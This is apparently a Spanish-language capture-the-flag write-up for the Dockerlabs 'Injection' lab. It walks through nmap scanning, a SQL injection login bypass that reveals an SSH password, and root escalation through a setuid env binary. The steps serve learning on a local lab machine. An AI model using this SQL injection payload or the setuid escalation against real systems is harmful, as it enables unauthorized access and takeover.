

# Writeup Injection

**Difficulty:** Super easy<br>
**Dockerlabs link:** [https://dockerlabs.es/](https://dockerlabs.es/)

## Preparando el entorno
Lo primero es desplegar la máquina con el script que viene al descargarla:
```
❯ chmod +x auto_deploy.sh
❯ sudo ./auto_deploy.sh injection.tar

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es -→ 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, creamos la carpeta injection, entramos y usamos la utilidad *mkt* que crea las carpetas *nmap*, *content*, *exploits* y *scripts*.

```
❯ mkdir injection-dockerlabs
❯ cd injection-dockerlabs
❯ mkt
❯ ls -l
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 content
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 exploits
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 nmap
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 scripts
```
## Recon
Lo primero que hacemos es un reconocimiento general con nmap sobre la máquina víctima para obtener los puertos abiertos.
```
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```
Una vez obtenidos los puertos abiertos hacemos un escaneo exhaustivo con scripts de recon para obtener los servicios que corren en cada puerto y su versión.

```
❯ extractPorts allPorts
[*] Extracting information...

   [*] IP Address: 172.17.0.2
   [*] Open ports: 22,80

[*] Ports copied to clipboard

❯ nmap -sCV -p22,80 172.17.0.2 -oN targeted
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-15 17:09 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000051s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.31 seconds
```

Así descubrimos que en el puerto 22 corre OpenSSH 8.9p1 y en el puerto 80 (puerto http) corre un servicio web Apache httpd 2.4.52.

## Explotación
Como hemos visto que hay un servicio web corriendo en la máquina víctima, vamos a ver la web, añadiendo el dominio (en este caso no tiene y pondremos simplemente el nombre de la máquina) al fichero */etc/hosts* de nuestra máquina virtual (es el fichero de configuración DNS local).

```
❯ sudo vi /etc/hosts
❯ cat /etc/hosts
127.0.0.1   localhost
127.0.1.1   godack

172.17.0.2  injection

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Una vez configurado el fichero */etc/hosts*, accedemos a la web y vemos que es un formulario de login.



Probamos a meter los parámetros básicos para comprobar si hay SQL injection. Para ello metemos la cadena *admin' OR '1' = '1'; --* en el usuario y cualquier cosa en la contraseña (en mi caso puse *hacked!*) para poder enviar el formulario. Si todo va bien, entraremos como administrador (si no funciona con admin se puede probar con root, administrator y similares, pero sin perder mucho tiempo).

```
User: admin' OR '1' = '1'; --
Password: hacked!
```

¡Y bingo! Entramos y obtenemos las credenciales de Dylan.

```
Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78
```

Con estas credenciales, podemos probar a entrar por el puerto ssh que también está abierto.

```
ssh dylan@injection
dylan@injection's password: (aquí ponemos el password)
dylan@6b329dffcb35:~$ 
```

¡Y ya tenemos acceso a la máquina!

## Escalada de privilegios

Para usar la consola de forma más cómoda podemos hacer el siguiente tratamiento de la terminal:

```
script /dev/null -c bash
stty raw -echo; fg
reset xterm
export TERM=xterm
```

Ahora que tenemos una terminal buscamos ficheros (mejor binarios) con usuario root y flag *setuid* activo y encontramos lo siguiente:

```
dylan@6b329dffcb35:/bin$ find / -perm -4000 -user root 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/su
/usr/bin/env
/usr/bin/chsh
```

Así que usamos el comando env de la siguiente forma y escalamos privilegios a root:

```
dylan@6b329dffcb35:/bin$ ./env /bin/sh -p
# whoami
root
# 
```

## Lecciones aprendidas
1. Escaneos con **nmap**
2. SQL injection simple
3. Búsqueda de binarios con *setuid* activo
4. Escalada de privilegios con **env**
